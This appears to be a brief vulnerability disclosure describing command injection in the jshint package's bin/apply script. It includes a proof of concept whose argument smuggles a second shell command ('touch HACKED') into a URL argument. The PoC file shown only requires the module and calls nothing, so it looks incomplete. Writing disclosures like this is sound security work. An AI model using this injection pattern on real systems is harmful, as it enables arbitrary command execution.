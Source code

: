 # Description

The `jshint` package is vulnerable against `RCE` since `user-supplied` arguments are unsafely formatted inside a command and executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var jshint = require("jshint/bin/apply");

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
node poc.js 'https://eee.w.www.ww"; touch HACKED; #' #  Run the PoC ... you'll need to CTRL+C after some seconds
```
